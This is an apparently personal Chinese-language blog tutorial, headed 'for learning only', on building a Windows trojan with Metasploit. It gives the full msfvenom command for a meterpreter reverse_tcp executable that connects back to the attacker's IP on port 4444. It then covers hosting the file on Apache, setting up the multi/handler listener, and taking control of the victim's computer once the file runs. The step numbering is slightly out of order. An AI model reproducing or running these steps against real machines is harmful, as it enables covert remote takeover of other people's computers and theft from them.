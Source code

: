 # msf渗透木马win10
### 此教程仅供学习!造成的损失与作者无关!
最近不知道树莓派放到哪去了,于是买了个固态硬盘装kali虚拟机,之前如果有看过我RPI装Kali的也不用慌,把第2步打开命令行改成连接树莓派就行<br/>

1. 把虚拟机的的连接方式改成桥接,但不要勾选复制物理连接[![H1sUXR.png](https://s4.ax1x.com/2022/02/08/H1sUXR.png)](https://imgtu.com/i/H1sUXR)<br/>
2. 打开控制台<br/>
3. 查看攻击方的IP[![H1rlJe.png](https://s4.ax1x.com/2022/02/08/H1rlJe.png)](https://imgtu.com/i/H1rlJe)<br/>
4. 生成木马,命令:msfvenom -p windows/meterpreter/reverse_tcp lhost=攻击方的IP lport=4444 -f exe -a x86 >virus.exe (记得加上sudo,如果是root就不用)[![H16YLR.png](https://s4.ax1x.com/2022/02/08/H16YLR.png)](https://imgtu.com/i/H16YLR)<br/>
5. 安装apache2,把木马移动到/var/www/html目录下,开启apache2服务[![H1cNcQ.png](https://s4.ax1x.com/2022/02/08/H1cNcQ.png)](https://imgtu.com/i/H1cNcQ)<br/>
6. 打开msf(命令msfconsole),加载模块use exploit/multi/handler[![H1WORf.md.png](https://s4.ax1x.com/2022/02/08/H1WORf.md.png)](https://imgtu.com/i/H1WORf)<br/>
7. 设置监听IP和监听端口,ip就是第三步获取的ip,端口就是4444(前提是生成木马时的端口是4444,但是提供的木马生成命令设置端口就是4444)[![H1f0Yt.png](https://s4.ax1x.com/2022/02/08/H1f0Yt.png)](https://imgtu.com/i/H1f0Yt)<br/>
8. 输入set payload windows/meterpreter/reverse_tcp<br/>
8. 输入exploit,开始监听[![H1oTeS.png](https://s4.ax1x.com/2022/02/08/H1oTeS.png)](https://imgtu.com/i/H1oTeS)<br/>
6. 在被攻击方运行木马,通常,它在{攻击方IP地址/生成病毒名称,如果没有重命名的话,应该叫virus.exe}<br/>
7. 这时,你拿到了权限,可以控制对方电脑啦~~~~<br/>


PS:其实这个测试在我刚接触Kali的的时候就做过了,但是现在才想起来,于是写了个博客(顺带一提要设置的payload好难记啊啊啊啊啊啊啊啊啊啊啊啊啊)
